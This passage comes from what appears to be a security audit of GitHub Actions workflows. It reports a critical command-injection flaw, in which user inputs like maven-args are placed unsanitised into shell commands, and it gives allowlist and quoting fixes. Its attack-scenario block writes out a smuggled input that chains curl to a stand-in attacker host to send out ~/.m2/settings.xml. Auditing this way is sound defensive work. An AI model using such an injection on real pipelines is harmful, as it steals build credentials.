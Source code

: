 **References**:
- [GitHub Security Best Practices](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-third-party-actions)
- [OSSF Scorecard](https://github.com/ossf/scorecard)

---

### 2. Command Injection via User Inputs

**Severity**: CRITICAL
**Impact**: Multiple workflows
**CVSS**: 9.1 (Critical)

**Description**:
Several workflows pass user-controlled inputs directly into shell commands without proper sanitization, creating command injection vulnerabilities.

**Vulnerable Locations**:

1. **maven_ci.yml** (line 100, 104, 108):
```yaml
run: mvn clean verify -DskipTests ${{ inputs.maven-args }}
run: mvn clean verify ${{ inputs.maven-args }}
run: mvn clean verify -Partagon-oss-ci ${{ inputs.maven-args }}
```

2. **maven_release.yml** (line 151):
```yaml
run: mvn clean deploy -P${{ inputs.deploy-profile }} -DskipTests
```

3. **cmake_c_ci.yml** (line 100, 115):
```yaml
${{ inputs.cmake-options }}
```

**Attack Scenario**:
```yaml
# Malicious workflow_call
with:
  maven-args: '-DskipTests && curl attacker.com/exfil?data=$(cat ~/.m2/settings.xml)'
```

**Remediation**:
1. Validate inputs with regex patterns:
```yaml
inputs:
  maven-args:
    type: string
    pattern: '^[-A-Za-z0-9=.,_:/ ]*$'  # Allowlist pattern
```

2. Use proper quoting and escaping:
```yaml
run: |
  MAVEN_ARGS="${{ inputs.maven-args }}"
  mvn clean verify "$MAVEN_ARGS"
```
